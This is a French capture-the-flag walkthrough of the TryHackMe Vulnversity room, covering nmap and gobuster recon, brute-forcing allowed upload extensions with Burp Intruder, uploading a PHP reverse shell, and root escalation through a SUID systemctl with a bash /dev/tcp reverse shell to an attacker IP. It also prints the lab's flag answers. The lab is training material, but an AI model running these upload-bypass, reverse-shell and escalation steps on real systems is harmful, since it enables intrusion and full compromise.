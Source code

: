 # vulnversity

dans ce tuto on s'attaque à la Room Vulnersity de TryHackMe.

https://tryhackme.com/room/vulnversity

Elle permet d'aborder les points suivants : 
* Le bruteforcing de formulaire web d'upload de fichier a la recherche d'extention de fichier autorisées.
* L'utilisation d'un reverse shell php
* L'elévation de privilège via


```sh
echo "10.10.227.79 vulnersity.thm" >> /etc/hosts
```

## [Task 2] Reconnaissance

### #2 Scanner le serveur, combien de port sont ouvert ?

```sh
nmap -Pn -sC -sV -vv -oN nmap.txt vulnersity.thm

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

> Réponse: **6 ports ouverts**

### #3	Quelle version de squid est installée ?

> Réponse: **3.5.12**

### #4 Combien de port nmap va scanner avec l'option -p-400 ?

Il est possible de scanner des plages de port via l'utilisatuion du "-" (e.g. `-p1-1023` )
Les valeurs de début et/ou de fin peuvent être ommisent. Si les les deux valeurs sont ommisent `-p-`, nmap va scanner du port 1 à 65535.

`-p-400` => 1 à 400 (inclus)

> Réponse: **400**

### #5 L'option -n de nmap premet de pas résoudre quoi ?

```
HOST DISCOVERY:
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
```

> Réponse: **DNS**

### #6 	Quel est l'OS du serveur ?

```
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

> Réponse: **Ubuntu**

### #7 Sur quel port écoute le serveur web ?

```
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

> Réponse: **3333**


http://vulnersity.thm:3333/


## [Task 3] Locating directories using GoBuster 

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://vulnersity.thm:3333/
(...)
/internal (Status: 301)
```

http://vulnersity.thm:3333/internal/

## [Task 4] 

### #1 Try upload a few file types to the server, what common extension seems to be blocked?

> Réponse: **.php**

### #3 Extension Bruteforcing


Intercep 'on' => bloque chaque requete avant qu'elle ne soit envoyée au serveur et attend la validation manuelle (forward)
Intercept 'off' => laisse passer les requêtes et les capture.

Capturer la requete POST d'upload.

Envoyer la requête POST au plugin `Intruder`

Le module Intruder permet de rejouer des requêtes en les modifiants via des scripts pré-définis

*Intruder > Positions*

Supprimer l'ensemble des `§` pré-assignés => **Clear**

Les ajouter manuellement pour encapsuler l'extention : `Content-Disposition: form-data; name="file"; filename="phpinfo§.php§"`

*Intruder > Payload*

Ajouter les valeurs a tester à la main ou les charger à partir d'un fichier (e.g. `/usr/share/dirb/extensions_common.txt`)

```
php3
php4
php5
phtml
```

*Intruder > Options*

Grep- Match : `Extension not allowed` (attention aux espaces en fin de ligne !)

Start Attack


What extension is allowed?

> Réponse: **phtml**

### #4 Gain remote access

Test d'envoi du fichier `phpinfo.phtml`.

Ou est-ce qu'il est stocké ?


Modifier le reverser shell.pthml et l'uploader

Préparer le netcat

```
nc -lnvp 8443
```

Appeler l'URL du shell 

```
wget http://vulnersity.thm:3333/internal/uploads/shell.phtml
```

### #5 What user was running the web server?

```
cat /etc/passwd
ls /home
```

> Réponse: bill

```
www-data@vulnuniversity:/$ cat /home/bill/user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
```

## [Task 5] Privilege Escalation


In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.


find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs


https://gtfobins.github.io/gtfobins/systemctl/#suid

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp



TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.9.28.128/4444 0>&1"
[Install]
WantedBy=multi-user.target' > $TF

systemctl link $TF
systemctl enable --now $TF


nc -lvnp 4444

root@vulnuniversity:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@vulnuniversity:/# cat /root/root.txt   
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
